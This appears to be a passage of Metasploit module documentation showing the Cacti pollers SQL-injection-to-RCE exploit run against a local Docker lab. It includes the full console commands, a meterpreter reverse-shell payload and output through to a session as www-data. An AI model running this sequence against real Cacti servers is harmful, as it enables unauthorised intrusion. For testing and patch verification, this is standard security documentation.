 ### TARGETURI
The base URI of Cacti (default `/cacti`).


## Scenarios

### Cacti version 1.2.25 on Docker installation
```
msf exploit(multi/http/cacti_pollers_sqli_rce) > set target 0
target => 0
msf exploit(multi/http/cacti_pollers_sqli_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/cacti_pollers_sqli_rce) > run rhost=127.0.0.1 rport=8080 lhost=192.168.144.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.25
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `pollers.php`
[*] Attempting SQLi to check if the target is vulnerable
[+] The target is vulnerable.
[*] Backing up the current log file path and adding a new path (log/cacti520.log) to the `settings` table
[*] Inserting the log file path `log/cacti520.log` to the external links table
[*] Getting the user ID and setting permissions (it might take a few minutes)
[*] Logging again to apply new settings and permissions
[*] Getting the CSRF token to login
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Poisoning the log
[*] Triggering the payload
[*] Sending stage (3045380 bytes) to 192.168.144.1
[*] Cleaning up log file
[*] Meterpreter session 8 opened (192.168.144.1:4444 -> 192.168.144.1:51181) at 2024-01-29 22:00:19 +0100
[*] Cleaning up external link using SQLi
[*] Cleaning up permissions using SQLi
[*] Cleaning up the log path in `settings` table using SQLi

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.25.0.3
OS           : Debian 11.5 (Linux 6.5.11-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
